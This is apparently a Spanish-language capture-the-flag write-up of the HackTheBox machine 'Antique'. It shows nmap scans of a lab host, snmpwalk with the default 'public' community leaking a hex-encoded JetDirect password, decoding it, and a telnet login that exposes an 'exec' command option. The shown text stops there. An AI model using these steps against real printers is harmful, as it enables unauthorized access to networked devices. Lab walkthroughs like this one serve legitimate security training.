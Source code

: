# Maquina Antique

Maquina de resolución fácíl. Básicamente accedemos a un servidor de impresión HP JetDirect.

Las técnicas que veremos son:

* SNMP Enumeration
* Network Printer Abuse
* CUPS Administration Exploitation (ErrorLog)
* EXTRA -> (DirtyPipe) [CVE-2022-0847]"


## Enumeración

### Primera vez, 10/07/2022 - Guardamar de la Safor

Primero realizamos un escaneo rápido y silencioso.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
</pre>

Nos devuelve un único puerto, el 23.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 01:36 CEST
Initiating SYN Stealth Scan at 01:36
Scanning 10.10.11.107 [65535 ports]
Discovered open port 23/tcp on 10.10.11.107
Completed SYN Stealth Scan at 01:37, 12.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.107
Host is up, received user-set (0.053s latency).
Scanned at 2022-07-11 01:36:59 CEST for 13s
Not shown: 65533 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
           Raw packets sent: 66376 (2.921MB) | Rcvd: 65845 (2.634MB)

</pre>

Podemos realizar un escaneo exhaustivo al puerto 23 con:

<pre>
nmap -sCV -p23 10.10.11.107 -oN targeted
</pre>

Esto nos dice poco, peor sabemos que el pueto 23 es un puerto telnet.


<pre>
❯ /bin/cat targeted
# Nmap 7.92 scan initiated Sun Jul 10 22:21:25 2022 as: nmap -sCV -p23 -oN targeted 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=7/10%Time=62CB34CC%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 10 22:24:10 2022 -- 1 IP address (1 host up) scanned in 165.07 seconds
</pre>

## Explotación

### Primer método.

Este método de explotación se ha etudiado viendo el vídeo de **S4vitar**:

[S4ViOnLive HackTheBox | Antique](https://www.youtube.com/watch?v=pvtergVU__4)  

En este vídeo se nos presenta la utilidad **snmpwalk** para enumeración snmp. Sabemos que es snmp porque es un servidor de impresión pero podriamos haberlo averiuado haciendo un escaneo de puertos UDP.

<pre>
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
</pre>

Aqui veríamos que está abierto el puerto **UDP 161 - snmp**

<pre>
❯ nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 02:11 CEST
Initiating Ping Scan at 02:11
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 02:11, 0.08s elapsed (1 total hosts)
Initiating UDP Scan at 02:11
Scanning 10.10.11.107 [100 ports]
Discovered open port 161/udp on 10.10.11.107
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Completed UDP Scan at 02:11, 4.53s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).
Not shown: 89 open|filtered udp ports (no-response), 10 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.82 seconds
           Raw packets sent: 321 (18.892KB) | Rcvd: 12 (939B)
</pre>

La utilidad ostrada por **S4vitar** nos indica varoas coas, pero la mas importante es el número 1 del final. S o se le pasa número toma por defecto el 2 que es un nodo por encima de la ráiz:

<pre>
snmpwalk -c public -v2c 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
</pre>

Nos devuelve información del sercidor de impresión. Si le ponemos un 1 nos dá información desde el inicio del árbol de la jerarquia.


<pre>
 snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
</pre>

Vemo que devueve información sensible. Desde la palabra BITS se muestra un código que a priori parece la representación númerica de un código hexadecimal ya que inguno supera los 3 dígitos ni el número 255. Para decodificar la secuencia hexadecimal hacemos lo siguiente:


<pre>
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# "2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# 
</pre>

Podemos intuir que la password es **P@ssw0rd@123!!123**.
Tambien podríamos haberlo decodificado en alguna herramienta online.

Probamos a entrar con dicha password.

<pre>
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123q

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 
</pre>









